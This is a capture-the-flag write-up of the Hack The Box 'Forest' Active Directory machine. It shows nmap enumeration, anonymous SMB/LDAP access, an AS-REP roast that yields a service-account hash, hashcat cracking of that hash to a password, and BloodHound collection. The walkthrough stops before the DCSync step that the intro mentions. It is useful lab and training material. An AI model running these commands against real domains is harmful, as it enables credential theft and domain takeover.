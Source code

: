 <p align="center">
  <img src="img/Forest.png" alt="Description de l'image" width="300"/>
</p>

# Intro

Forest was my first AD machine after completed the CPTS path of HTB.
It's a well known machine for getting started with Active Directory environments. It is an easy-rated machine. The pentest is performed in a black box context as we have no credentials, only the machine's IP address.
I started by a ASREP-Roasting and found that `svc_alfresco` do not requirer Kerberos pre-auth and succesfuly cracked offline his TGT.
After that I used his account to harvest all the domain ACLs and discovered that `svc_alfresco` is a part of the `Account Operators` which has the `GenericAll` over the `Exchange Windows Permissions`.
This group has the `DCSync` ACL over the domain. So I performed a DCSync attack to recover the `Administrator` NT hash and fully compromised the domain

# Walkthough

## Enumeration

I began to enumerate services on the host with the `nmap` tool.

```bash
 # nmap -sV -sC -p- -T5 10.129.62.73

PORT      STATE SERVICE      VERSION
25/tcp    open  smtp-proxy   Avast! anti-virus smtp proxy (cannot connect to 10.129.62.73)
|_smtp-commands: SMTP EHLO htb.local: failed to receive data: connection closed
53/tcp    open  domain       Simple DNS Plus
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2025-10-15 12:44:26Z)
110/tcp   open  pop3-proxy   Avast! anti-virus pop3 proxy (cannot connect to 10.129.62.73)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
143/tcp   open  imap-proxy   Avast! anti-virus IMAP proxy (cannot connect to 10.129.62.73)
|_imap-capabilities: CAPABILITY
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
465/tcp   open  tcpwrapped
|_smtp-commands: Couldn't establish connection on port 465
587/tcp   open  smtp-proxy   Avast! anti-virus smtp proxy (cannot connect to 10.129.62.73)
|_smtp-commands: SMTP EHLO htb.local: failed to receive data: connection closed
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
993/tcp   open  tcpwrapped
995/tcp   open  tcpwrapped
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49681/tcp open  msrpc        Microsoft Windows RPC
49698/tcp open  msrpc        Microsoft Windows RPC
49996/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   311:
|_    Message signing enabled and required
| smb-os-discovery:
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: FOREST
|   NetBIOS computer name: FOREST\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: FOREST.htb.local
|_  System time: 2025-10-15T02:56:25-07:00
| smb-security-mode:
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-time:
|   date: 2025-10-15T09:56:23
|_  start_date: 2025-10-15T08:53:18
```

Kerberos and LDAP services are exposed on the host, which leads to conclude that this is a Domain Controller within an Active Directory environment.
The domain name is `htb.local` and The DC FQDN is `FOREST.htb.local`.

I added this information to /etc/hosts.

```bash
# echo '10.129.62.73 htb.local FOREST.htb.local FOREST' >> /etc/hosts 
```

## Kerberoasting `svc-alfresco`

It seems like nmap was able to retrieve several information, maybe smb is accessible from an anonymous connexion.
Let's confirm that with NetExect.

```bash
# nxc smb FOREST.htb.local -u '' -p ''
SMB         10.129.62.73    445    FOREST           [*] Windows 10 / Server 2016 Build 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.129.62.73    445    FOREST           [+] htb.local\:
```

It's confirmed, it is the same for ldap?

```bash
nxc ldap FOREST.htb.local -u '' -p ''
LDAP        10.129.62.73    389    FOREST           [*] Windows 10 / Server 2016 Build 14393 (name:FOREST) (domain:htb.local) (signing:None) (channel binding:No TLS cert)
LDAP        10.129.62.73    389    FOREST           [+] htb.local\:
```

Yes! So whith that, we can perfrom an AS-REP Roast attack to request a user TGT without his password.

```bash
# nxc ldap 10.129.62.73 -u '' -p '' --asreproast asreproast.txt
LDAP        10.129.62.73    389    FOREST           [*] Windows 10 / Server 2016 Build 14393 (name:FOREST) (domain:htb.local) (signing:None) (channel binding:No TLS cert)
LDAP        10.129.62.73    389    FOREST           [+] htb.local\:
LDAP        10.129.62.73    389    FOREST           [*] Total of records returned 1
LDAP        10.129.62.73    389    FOREST           $krb5asrep$23$svc-alfresco@HTB.LOCAL:68342ef59bc941531618bb589cedd8b9$703ea2b719fbf84824611c4a36e59852274e2965faea332486dd5a722303a807aa6725bb329781f67eb5658f04b87d2ff9053d1840c47838b432d96101ca7dd50251a8c3d5c43a7835d5738ab027807d30692966ead77e33e4011fe47bb7a073a347afd640a2016bda5bdde0c0b96e5c08cd6019867d784be570a5796c7f238fd28cbd0defb930880719502dfd430d47bfe86c1a18de199a44a5163b11eddc794ef682f8d16c807c6b2bbc621a43506a4f5bbea0fc499c92f9f82b37f9e0a0689c938ac1e1cdd6a4dfff8bfe16c88965469cc3b8c89ef41655f9b8999dd3ab73885b7e083452
```

Here is the hash! Notice that no userlist is necessary because the null session is allowed and the tool enumerate first the usernames and make the AS-REQ automaticaly for each users.

## Cracking `svc-alfresco` hash

I tried to crack this AS-REP hash with `Hashcat` to revael the `svc-alfresco` password.

```bash
# hashcat -m 18200 asreproast.txt /opt/lists/rockyou.txt       

$krb5asrep$23$svc-alfresco@HTB.LOCAL:68342ef59bc941531618bb589cedd8b9$703ea2b719fbf84824611c4a36e59852274e2965faea332486dd5a722303a807aa6725bb329781f67eb5658f04b87d2ff9053d1840c47838b432d96101ca7dd50251a8c3d5c43a7835d5738ab027807d30692966ead77e33e4011fe47bb7a073a347afd640a2016bda5bdde0c0b96e5c08cd6019867d784be570a5796c7f238fd28cbd0defb930880719502dfd430d47bfe86c1a18de199a44a5163b11eddc794ef682f8d16c807c6b2bbc621a43506a4f5bbea0fc499c92f9f82b37f9e0a0689c938ac1e1cdd6a4dfff8bfe16c88965469cc3b8c89ef41655f9b8999dd3ab73885b7e083452:s3rvice

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
```

The hash is cracked! I have a first domain credential:
`svc-alfreso:s3rvice`

## Enumerate ACLs with Bloodhound

I used `bloodhound.py` to dumps all ACLs of 

```bash
# # bloodhound.py --zip -c All -u 'svc-alfresco' -p 's3rvice' -dc FOREST.htb.local -d htb.local -ns 10.129.62.73
```

Let's check with `Bloodhound` the attacks path I have from `svc-alfresco`.







